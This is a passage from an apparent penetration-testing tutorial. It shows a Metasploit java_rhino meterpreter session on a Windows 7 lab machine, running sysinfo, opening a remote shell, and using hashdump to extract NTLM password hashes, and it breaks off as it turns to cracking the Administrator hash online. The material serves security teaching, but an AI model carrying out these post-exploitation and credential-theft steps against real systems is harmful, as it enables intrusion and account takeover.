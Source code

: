 	msf exploit(java_rhino) > 

To connect to session we can run the following and also check the system info:

	msf exploit(java_rhino) > sessions -i 1
	[*] Starting interaction with 1...
	
	meterpreter > sysinfo
	Computer        : WIN7
	OS              : Windows 7 (Build 7601, Service Pack 1).
	Architecture    : x86
	System Language : en_US
	Domain          : WORKGROUP
	Logged On Users : 1
	Meterpreter     : x86/win32
	meterpreter > 

Now let's start up a **shell** and run some commands remotely:

	meterpreter > shell
	Process 2376 created.
	Channel 1 created.
	Microsoft Windows [Version 6.1.7601]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
	
	C:\Users\Administrator\Desktop>cd \
	cd \
	
	C:\>dir
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is 3264-1102
	
	 Directory of C:\
	
	06/10/2009  04:42 PM                24 autoexec.bat
	06/10/2009  04:42 PM                10 config.sys
	07/13/2009  09:37 PM    <DIR>          PerfLogs
	08/10/2015  06:55 PM    <DIR>          Program Files
	08/06/2015  11:23 AM    <DIR>          Users
	08/10/2015  06:17 PM    <DIR>          Windows
	               2 File(s)             34 bytes
	               4 Dir(s)  55,128,817,664 bytes free
	
	C:\>exit
	exit
	meterpreter > 

Now let's get the password for the Administrator, all the password hashes for all the users can be obtained with the **hashdump** command:

	meterpreter > hashdump
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	meterpreter > 

The hash is **ae974876d974abd805a989ebead86846** for the *administrator* user. Now let's crack that hash by using the **crackstation.net** site:

